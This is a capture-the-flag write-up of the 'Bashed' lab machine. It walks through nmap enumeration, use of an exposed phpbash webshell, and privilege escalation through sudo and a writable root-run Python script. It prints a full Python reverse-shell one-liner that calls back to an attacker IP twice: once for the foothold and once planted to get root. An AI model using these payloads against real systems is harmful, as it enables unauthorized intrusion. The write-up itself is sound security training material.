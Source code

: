 
## [Home](../../index.md)      [Whoami](/assets/)       [Login](/assets)      [Sign up](/assets/)
### -----------------------------------------------------------------------------------------------

![bashed](/assets/basheddefault.png)

## Enumeration

Starting off with an nmap scan: `nmap -sC -sV -O -oA nmap/bashed 10.10.10.68`

Ports open:        
1. 80 - http. 

We can see that only port 80 is open. So, we can try and run our basic tools such as dirb, nikto, etc. 
After doing some enumeration, we find out that there is a webshell running on: `http://10.10.10.68/phpbash.php`. 


![bashed homepage](/assets/bashedhomepage.png)



We can navigate through the files and directories of the webshell, but we cannot switch or privesc to another user, as it spawns a new shell every time we type a new command.   
We can then use netcat to get a rev shell back to our machine and then privesc from there. 
But ncat, nc, netcat doesn't seem to work, so we tried a python shell and it worked. 
Payload used:   
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash").  
  
## Exploitation
Setting up a netcat listener on our machine and then catching the shell:
![shell](/assets/shell.png)

## Privilege Escalation
After looking around the local filesystem we found out that there is a user called **scriptmanager**. 
After using `sudo -l` to list the sudo permissions which we can perform, this is what we get:  

![sudo priv](/assets/sudopriv.png)


As we can see that we can run any command as the scriptmanager user. 
Hence, we run the bash binary as the user scriptmanager to switch user to scriptmanager:  

    sudo -u scriptmanager /bin/bash.  

And we our now the user scriptmanager!   

Now we need to escalate our privileges to root. 
Again looking around in the local filesystem we find out that there is a /scripts directory in the root of the filesystem. 
We notice that there is a /scripts dir present on the machine which is odd.
-After going into that dir, we can see that there are 2 files:
---test.py. 
---test.txt. 

scriptmanager@bashed:/scripts$ cat test.py. 
cat test.py
f = open('test.txt', 'w')
f.write('testing123!')
f.close


We can then see that the test.txt file has the contents testing123!
So, now we know that the file is/can be written somehow from the py file which is present. 

So, we create a different file with the same code. 

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('lego')
f.close



-And now we can see that the file yes.py is owned by root.
-That means that whatever we execute from the yes.py file we can get root from it.


-So we can insert the same py rev shell payload which we used earlier:

scriptmanager@bashed:/scripts$ cat test.py.  
`cat test.py
f = open('yes.py', 'w')
f.write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
f.close`  

Same reverse shell payload used as above. 

Now, we setup a netcat listener on our machine to catch the reverse shell:  
![root](/assets/shell2.png)

And now we are ROOT!!!!



